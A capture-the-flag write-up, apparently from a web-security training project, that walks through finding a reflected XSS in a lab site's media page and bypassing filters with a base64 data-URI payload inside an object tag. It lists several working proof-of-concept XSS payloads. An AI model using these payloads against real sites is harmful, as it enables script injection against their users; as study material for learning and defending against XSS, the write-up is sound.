


# XSS URL

## Before
Must see this [writeup](https://github.com/mza7a/darkly/blob/master/XSS%20Feedback/Resources/readme.md) for basic `XSS` or `Cross Site Scripting` undestanding.

Let's dive right into it.
On the home page of our website. Scroll a bit down and you can click on the following image :



In the url you'll have something like this :
```
http://10.30.228.84/?page=media&src=nsa
```

Tried changing `src` to directories but it didn't work.
We thought about `sql` as well but no luck.
Then We tried basic `XSS` but it didn't work, something like this :
```html
<script>alert(1);</script>
```

Let's try and check what happens in the background of the request. Using `developer tool`.
Inputing something like `test` in `nsa` variable will result in the following :



So we have :
```html
<object data="whatever we input">
    stuff
</object>
```

We tried many things like :
```html
"<script>alert(1);</script>
<SCRIPT>alert(1);</SCRIPT>
"><script>alert(1);</script>
javascript:base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=
```

After some googling We can across something called `DATA URI XSS`. We simply are going to bypass `XSS` filters using it.
It's general syntax is like the following :
```html
data:[mediatype][;base64],data
```

Meaning our payload should be something like this :
```html
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=
```

In details the `<object>` tag is used to include objects such as images, audio, videos... The `data` attribute of the object tag defined a URL that refers to the object's data.
So our payload is base64 is simply `<script>alert(1);</script>`.

When the browser loads the object tag, it loads an object. In this case its javascript, assigned to its data attribute. This cause the execution of that javascript code.

## How to protect ?
Again the input must be really we sanitized, and don't let any open options on your website unless you really have to.